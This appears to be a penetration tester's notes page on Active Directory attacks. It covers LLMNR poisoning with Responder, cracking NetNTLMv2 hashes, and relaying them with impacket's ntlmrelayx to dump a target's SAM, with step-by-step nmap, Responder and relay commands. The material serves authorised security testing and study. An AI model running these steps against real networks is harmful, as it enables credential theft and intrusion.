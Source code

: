 
## LLMNR Poisoning with Responder

- Must be on the target network
- Best to run in the background
- Have running first thing in the morning and during lunch

See [[responder#Start Responding|Responder]].

---

## Crack NetNTLMv2 Hashes

See [[hashcat#Crack NetNTLMv2 Hashes|Hashcat]].

---

## Relay NetNTLMv2 Hashes to Dump Target SAM

* SMB signing must be disabled on the target
* Relayed user credentials must be administrator on the target

1. Ensure the target(s) have SMB signing disabled

    ```bash
    nmap -Pn --script=smb2-security-mode.nse -p445 $TARGETS
    ```

2. Turn off SMB and HTTP responding within Responder by editing the Responder configuration file

    ```conf
    # /usr/share/Responder/Responder.conf

    ; Servers to start
    ...
    SMB = Off
    ...
    HTTP = Off
    ...
    ```

3. Fire up Responder

    ```bash
    responder -I $INTERFACE_TO_LISTEN_AND_RESPOND_ON -rdwv
    ```

4. Fire up the relay

    ```bash
    cd /usr/share/impacket
    python3 examples/ntlmrelayx.py -tf $TARGETS_FILE -smb2support 
    ```
